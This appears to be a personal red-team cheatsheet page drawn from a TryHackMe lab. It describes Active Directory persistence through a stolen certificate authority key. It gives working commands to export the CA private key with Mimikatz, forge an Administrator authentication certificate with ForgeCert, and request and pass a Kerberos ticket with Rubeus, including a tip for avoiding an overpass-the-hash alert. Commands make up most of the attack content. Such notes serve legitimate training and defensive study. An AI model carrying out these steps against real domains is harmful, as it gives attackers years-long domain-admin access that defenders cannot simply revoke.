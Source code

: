 # Active Directory Persistence With Certificates

We the use of [[AD-Certificate-Exploitation]], leveraging certifications to become Domain Admins can be viable method of persistemces as all that is requiered is a valid certificate used for client authentication. The certificate can be used to request a TGT. The certificate has to be revoked or expire for a failure state to occur, therefore potential persistent access by default for around 5 years. 

## Certificate Authority CA 

Steal the private key of the root CA's certificate to generate our own certificates. Blue can not revoke them as they were never issue by the CA and would require a CA rotation - all issued certificates would have to be revoked and new one reinstated! With [[Mimikatz-Cheatsheet]] or [SharpDPAPI](https://github.com/GhostPack/SharpDPAPI)

The private key of the CA is stored on the CA server, if not protoect through Hardware Security Module (HSM) - a hardware-based protection method - it is protected by the machine Data Protection API (DPAPI).

```powershell
# View CA Certificate on the DC 
# Some Certificate do not allow exporting the private key  
crypto::certificates /systemstore:local_machine
# Therefore use Mimikatz to generate a new certificate 
privilege::debug
crypto::capi
crypto:cng
crypto::certificates /systemstore:local_machine /export
# Exported certificates will be stored in both PFX and DER format to disk
```
Transfer both .pfx and .der certificate files to non domain machine for safe keeping and safer certificate generation.

Use SpectreOps's [ForgeCert](https://github.com/GhostPack/ForgeCert) to forge a Client Authenication certificate.
```powershell
# --SubjectAltName is User principle name UPN 
ForgeCert.exe --CaCertPath $exportedCAcertificate --CaCertPassword mimikatz --Subject CN=User --SubjectAltName Administrator@za.tryhackme.loc --NewCertPath $NewCertName.pfx --NewCertPassword Password123
```
Then use [[Rubeus-Cheatsheet]] to request a TGT using the certificate to verify that the certificate is trusted:
```powershell
Rubeus.exe asktgt /user:Administrator /enctype:aes256 /certificate:$generated-cert /password:$cert-password /outfile:$output.pfx /domain:$domain /dc:$dc-ip
# /user has to match the UPN for the certificate
# set /enctype to avoid overpass-the-hash alert
# /dc: set to DC that has CA service running!
```

Then [[Mimikatz-Cheatsheet]] to [[Pass-The-Ticket]]
```powershell
kerberos::ptt $ticket.kirbi
```

## References

[THM AD Persistence Room](https://tryhackme.com/room/persistingad)